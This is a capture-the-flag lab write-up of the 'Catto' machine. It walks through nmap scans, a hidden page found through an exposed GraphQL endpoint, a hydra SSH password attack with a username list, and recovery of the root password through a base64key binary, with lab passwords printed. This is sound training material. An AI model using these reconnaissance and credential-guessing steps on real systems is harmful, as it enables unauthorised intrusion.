 # Catto

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.139
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 15:03 +08
Nmap scan report for 192.168.183.139
Host is up (0.17s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
2500/tcp  filtered rtsserv
4907/tcp  filtered unknown
8080/tcp  open     http-proxy
18080/tcp open     unknown
30330/tcp open     unknown
36123/tcp open     unknown
38439/tcp open     unknown
42022/tcp open     unknown
42086/tcp filtered unknown
50400/tcp open     unknown
56339/tcp filtered unknown
```

Lots of ports open. Did a detailed scan as well:

```
$ sudo nmap -p 8080,18080,30330,36123,38439,42022,50400 -sC -sV --min-rate 3000 192.168.183.139
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 15:05 +08
Nmap scan report for 192.168.183.139
Host is up (0.17s latency).

PORT      STATE SERVICE VERSION
8080/tcp  open  http    nginx 1.14.1
|_http-server-header: nginx/1.14.1
|_http-title: Identity by HTML5 UP
|_http-open-proxy: Proxy might be redirecting requests
18080/tcp open  http    Apache httpd 2.4.37 ((centos))
|_http-title: CentOS \xE6\x8F\x90\xE4\xBE\x9B\xE7\x9A\x84 Apache HTTP \xE6\x9C\x8D\xE5\x8A\xA1\xE5\x99\xA8\xE6\xB5\x8B\xE8\xAF\x95\xE9\xA1\xB5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
30330/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
36123/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
38439/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, ms-sql-s, oracle-tns: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
42022/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 cc2151f2c62aadd6ca0704de705ffa13 (RSA)
|   256 05e490d2002b9d14e39f4468d28ebcdc (ECDSA)
|_  256 ca804973f0c805aebd2b42371d13e071 (ED25519)
50400/tcp open  http    Node.js Express framework
|_http-title: Error
|_http-cors: HEAD GET POST PUT DELETE PATCH
```

### Web Enum --> GraphQL&#x20;

Port 8080 shows a portfolio page:

<figure><img src="../../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

It was rather static, so I moved to port 30330. This page had some book reviews:

<figure><img src="../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

This page looked more dynamic, so I ran a directory scan with `feroxbuster`, which found nothing of interest. Since we couldn't find anything with wordlists, I took a look through the local files:

There were a few interesting folders:

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

There wasn't much within the folders. On the 'Using Typescript' page, there was a link to documentation:

<figure><img src="../../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://www.gatsbyjs.com/docs/how-to/custom-configuration/typescript/" %}

On the documentation page, there was mention of GraphQL being used, and sure enough `/__graphql` was a valid directory on the website as per the documentation:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

The left had some queries already valid, so I checked those out. Using the `allSitePage` reveals all directories, including a hidden one:

<figure><img src="../../../.gitbook/assets/image (18) (11).png" alt=""><figcaption></figcaption></figure>

Visiting it reveals a password:

<figure><img src="../../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

This was a password to a Minecraft server. We didn't have a user, but the Minecraft page had some that we could try:

{% code overflow="wrap" %}
```
Minecraft: The Island by Max Brooks, #1 New York Times bestselling author of World War Z, is the first official Minecraft novel. In the tradition of iconic stories like Robinson Crusoe and Treasure Island, Minecraft: The Island will tell the story of a new hero stranded in the world of Minecraft, who must survive the harsh, unfamiliar environment and unravel the secrets of the island.

We loved this book so much that created a server. Already invited and added keralis, xisuma, zombiecleo, mumbojumbo, and waiting for a reply on the entire hermicraft clan. There is a limit on the server, but at least sabel, yvette, zahara, sybilla, marcus, tabbatha and tabby are already online and building.

Good luck everybody!
```
{% endcode %}

We can gather all the usernames into one wordlist:

```
sabel
yvette
zahara
sybilla
marcus
tabbatha
tabby
keralis
xisuma
zombiecleo
mumbojumbo
```

I used `hydra` to brute force the creds:

```
$ hydra -L users -p WallAskCharacter305 192.168.183.139 ssh -s 42022
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-12 15:20:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 11 tasks per 1 server, overall 11 tasks, 11 login tries (l:11/p:1), ~1 try per task
[DATA] attacking ssh://192.168.183.139:42022/
[42022][ssh] host: 192.168.183.139   login: marcus   password: WallAskCharacter305
```

We can then `ssh` in as `marcus`:

<figure><img src="../../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### .bash --> Base64key Root Creds

There was a weird folder `.bash` within the user's home directory:

```
[marcus@catto ~]$ ls -la
total 20
drwx------  5 marcus marcus 167 Nov 25  2020 .
drwxr-xr-x. 3 root   root    20 Nov 25  2020 ..
-rw-r--r--  1 root   root    29 Nov 25  2020 .bash
-rw-------  1 marcus marcus   0 Apr 14  2021 .bash_history
-rw-r--r--  1 marcus marcus  18 Nov  8  2019 .bash_logout
-rw-r--r--  1 marcus marcus 141 Nov  8  2019 .bash_profile
-rw-r--r--  1 marcus marcus 312 Nov  8  2019 .bashrc
drwx------  4 marcus marcus  39 Nov 25  2020 .config
drwxr-xr-x  6 marcus marcus 328 Nov 25  2020 gatsby-blog-starter
-rw-------  1 marcus marcus  33 Jul 12 06:59 local.txt
drwxrwxr-x  4 marcus marcus  69 Nov 25  2020 .npm

[marcus@catto ~]$ cat .bash
F2jJDWaNin8pdk93RLzkdOTr60==
```

This string looked like `base64` but it wasn't. I looked at other binaries with `base` as part of their name:

```
[marcus@catto ~]$ base
base32     base64     base64key  basename
```

`base64key` required a private key to decrypt, so I just tried the user's password and it worked:

```
[marcus@catto ~]$ base64key
Usage: ./a.out message key (0:encrypt|1:decrypt)
./a.out "Hello world" MYPRIVATEKEY 0
./a.out ttz9JqxZHBClNtu= MYPRIVATEKEY 1
[marcus@catto ~]$ base64key F2jJDWaNin8pdk93RLzkdOTr60== WallAskCharacter305 1
SortMentionLeast269
```

We can then `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (24) (3).png" alt=""><figcaption></figcaption></figure>
